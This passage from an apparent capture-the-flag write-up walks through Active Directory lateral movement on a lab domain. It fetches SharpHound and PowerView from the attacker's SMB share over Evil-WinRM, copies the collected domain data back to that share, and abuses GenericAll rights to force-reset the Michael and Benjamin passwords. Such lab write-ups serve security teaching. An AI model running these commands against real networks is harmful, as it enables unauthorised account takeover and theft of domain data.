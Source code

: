 Now all we need to do is bring in sharphound, collect our data and move it back to our kali machine.
```
*Evil-WinRM* PS C:\Users\olivia> net use w: \\10.10.14.113\archer /user:kali kali
*Evil-WinRM* PS C:\Users\olivia> copy W:\SharpHound.exe .
*Evil-WinRM* PS C:\Users\olivia> .\SharpHound.exe -c all
*Evil-WinRM* PS C:\Users\olivia> copy 202* W:\
```

Now that we've gathered our data, we can check if Olivia has any special privileges, and sure enough when looking at first degree object control, it seems like Olivia has `GenericAll` rights over `MICHAEL@ADMINISTRATOR.HTB`, this right allows us to force change the target user's password, so let's get to doing that

```ps
PS C:\...> import-module .\PowerView.ps1

PS C:\...> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\...> Set-DomainUserPassword -Identity Michael -AccountPassword $UserPassword
```

We can confirm this worked via netexec:
```
┌──(root㉿kali)-[~/htb/Machines/Medium/Administrator]
└─# netexec winrm administrator.htb -u michael -p 'Password123!'
WINRM       10.129.81.221   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.129.81.221   5985   DC               [+] administrator.htb\michael:Password123! (Pwn3d!)
```

## Michael -> Benjamin
Similarly to Olivia, Michael can log in with WinRM and when following the same steps to see what object control Michael has, the account can force change the password of `BENJAMIN@ADMINISTRATOR.HTB`

we'll follow the same steps as we did before, copy over PowerView, import it and use it to change the password of Benjamin:
```
*Evil-WinRM* PS C:\Users\michael\documents> net use w: \\10.10.14.113\archer /user:kali kali
The command completed successfully.
*Evil-WinRM* PS C:\Users\michael\documents> copy W:\PowerView.ps1 .
*Evil-WinRM* PS C:\Users\michael\documents> import-module .\PowerView.ps1

*Evil-WinRM* PS C:\Users\michael\documents> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\michael\documents> Set-DomainUserPassword -Identity Benjamin -AccountPassword $UserPassword
```

## Benjamin -> Emily (User flag)
2 user pivots and no user flag! Well, we have to keep going.
Going over Benjamin we run into a pitstop, we cannot log into WinRM and the account doesn't seem to have any obvious dangerous privileges over other users.
